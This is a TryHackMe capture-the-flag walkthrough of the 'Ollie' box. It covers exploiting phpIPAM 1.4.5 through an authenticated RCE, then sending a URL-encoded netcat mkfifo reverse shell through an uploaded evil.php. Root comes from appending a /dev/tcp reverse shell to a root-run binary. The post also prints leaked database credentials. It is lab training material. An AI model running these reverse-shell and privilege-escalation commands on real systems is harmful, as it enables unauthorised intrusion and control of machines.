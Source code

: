 ```yaml
---
title: THM Ollie/Ollie Box/OlliesHouse
date: 2023-09-16 08:01:00 -0800
categories: [Walkthrough, TryHackMe]
tags: [THM, TryHackMe, CTF]
published: true
---
```


# The worlds most powerful hacker dog.

RIP Ollie 1/5/2023. 

> Ollie Unix Montgomery, the infamous hacker dog, is a great red teamer. As for development... not so much! Rumor has it, Ollie messed with a few of the files on the server to ensure backward compatibility. Take control before time runs out!

## Enumeration

### port scans

First off starting with a portscan. Here I use my tool [0xscan](https://github.com/0xskar/0xscan). A simple bash script that combines nmap port scans with service scans - automates the process a bit and saves some time.

We find 3 discoverable ports. SSH port 22, HTTP on port 80, and some sort of listener on our hacker port 1337.

### HTTP port 80

We find a disallowed entry http-robots.txt from the port scan on port 80. `/immaolllieeboyyy`. Investigating this refreshes your browser to `https://www.youtube.com/watch?v=YIWSEa5U9_U`. Whatever you do don't visit the link it's terrible. Trust me :(

Also going to add `ollieshouse.thm` to the `/etc/hosts` file. This will make it easiar to scan for subdirectories and if we have to come back to the machine we can just change the IP.

Visiting the index page the footer tells us this portal is powered by `phpIPAM v1.4.5`, which has [an authenticated RCE exploit](https://www.exploit-db.com/exploits/50963). We can find this by using `searchsploit` on kali linux or by using `exploit-db.com`.

### port 1337 

Connect to port 1337 with telnet and after a series of questions we get some credentials for the login panel.

![Telnet connection](/assets/ollie_01.png)

We can use these with the RCE exploit to gain access to the system.

## RCE

```
./exploit.py -url http://domain.tld/ipam_base_url -usr username -pwd password -cmd 'command_to_execute' --path /system/writable/path/to/save/shell
```

Then we can send through a shell with curl? 

- `curl -G http://ollieshouse.thm/evil.php -d 'cmd=whoami'`

- `curl -G http://ollieshouse.thm/evil.php -d 'cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%32%2e%33%2e%36%34%20%39%30%30%31%20%3e%2f%74%6d%70%2f%66'`

HTML encoding a netcat mkfifo listener responds to us with a shell.

![reverse shell](/assets/ollie_02.png)

## User Escalation

Now that we have a shell next order of business is to get user or root. Lets check around the system for anything that looks funny before linpeas.

Checking `/var/www/html/config.php` we do find some credentials.

```
 * database connection details
 ******************************/
$db['host'] = 'localhost';
$db['user'] = 'phpipam_ollie';
$db['pass'] = 'IamDah1337estHackerDog!';
$db['name'] = 'phpipam';
$db['port'] = 3306;
```

Aaaand these creds don't really help at all. Using the same password that we had for the admin panel logs us into the machine. I spent a few hours at this point looking for another way into the user, so should have tried that first, oh well.

- `su ollie`

Checking through linpeas a few times doesn't get us anywhere. We can run `pspy64` to check processes.

![feedme](/assets/ollie_03.png)

- `find / -name feedme -type f 2>/dev/null`

![feedme2](/assets/ollie_04.png)

We should be able to add a shell to this and become root.

- `echo '/bin/sh -i >& /dev/tcp/10.2.3.64/9002 0>&1' >> /usr/bin/feedme` 

![root](/assets/ollie_05.png)

and we done rip ollie